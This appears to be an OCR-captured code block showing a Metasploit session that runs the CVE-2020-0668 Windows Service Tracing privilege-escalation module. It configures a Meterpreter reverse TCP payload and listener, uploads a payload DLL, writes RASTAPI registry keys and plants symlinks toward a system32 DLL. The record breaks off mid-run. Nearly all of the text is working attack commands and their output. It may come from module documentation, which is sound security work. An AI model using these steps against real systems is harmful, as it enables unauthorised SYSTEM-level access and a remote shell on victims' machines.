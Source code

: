   ```
msf5 exploit(windows/local/cve_2020_0668_service_tracing) > set lhost 192.168.135.168
lhost => 192.168.135.168
msf5 exploit(windows/local/cve_2020_0668_service_tracing) > set verbose true
verbose => true
msf5 exploit(windows/local/cve_2020_0668_service_tracing) > set session 1
session => 1
msf5 exploit(windows/local/cve_2020_0668_service_tracing) > show options

Module options (exploit/windows/local/cve_2020_0668_service_tracing):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   EXPLOIT_DIR                             no        The directory to create for mounting (%TEMP%\%RAND% by default).
   OVERWRITE_DLL          false            yes       Overwrite WindowsCreDeviceInfo.dll if it exists (false by default).
   PAYLOAD_UPLOAD_NAME                     no        The filename to use for the payload binary (%RAND% by default).
   PHONEBOOK_UPLOAD_NAME                   no        The name of the phonebook file to trigger RASDIAL (%RAND% by default).
   SESSION                1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf5 exploit(windows/local/cve_2020_0668_service_tracing) > run

[*] Started reverse TCP handler on 192.168.135.168:4444
[*] Build Number = 17134
[*] Attempting to PrivEsc on DESKTOP-D1E425Q via session ID: 1
[*] Payload DLL is 5120 bytes long
[*] Registry hash = [{:key_name=>"HKLM\\SOFTWARE\\Microsoft\\Tracing\\RASTAPI", :value_name=>"EnableFileTracing", :value_type=>"REG_DWORD", :value_value=>1, :delete_on_cleanup=>false}, {:key_name=>"HKLM\\SOFTWARE\\Microsoft\\Tracing\\RASTAPI", :value_name=>"FileDirectory", :value_type=>"REG_EXPAND_SZ", :value_value=>"C:\\Users\\msfuser\\AppData\\Local\\Temp\\jeYpOx", :delete_on_cleanup=>false}, {:key_name=>"HKLM\\SOFTWARE\\Microsoft\\Tracing\\RASTAPI", :value_name=>"MaxFileSize", :value_type=>"REG_DWORD", :value_value=>5119, :delete_on_cleanup=>false}]
[*] Making C:\Users\msfuser\AppData\Local\Temp\jeYpOx on DESKTOP-D1E425Q
[*] Creating C:\Users\msfuser\AppData\Local\Temp\jeYpOx
[*] Creating mountpoint
[+] Successfuly opened C:\Users\msfuser\AppData\Local\Temp\jeYpOx
[*] Uploading payload to C:\Users\msfuser\AppData\Local\Temp\FICNArio.dll
[*] Payload md5 = b8341507939ea464f81f0245628e470f
[*] Creating Symlinks
[*] Creating symlink C:\Users\msfuser\AppData\Local\Temp\FICNArio.dll in \RPC Control\RASTAPI.LOG
[*] Collected Symlink Handle 704
[*] Creating symlink C:\Windows\system32\WindowsCoreDeviceInfo.dll in \RPC Control\RASTAPI.OLD
[*] Collected Symlink Handle 688
[*] Writing EnableFileTracing to HKLM\SOFTWARE\Microsoft\Tracing\RASTAPI
  ```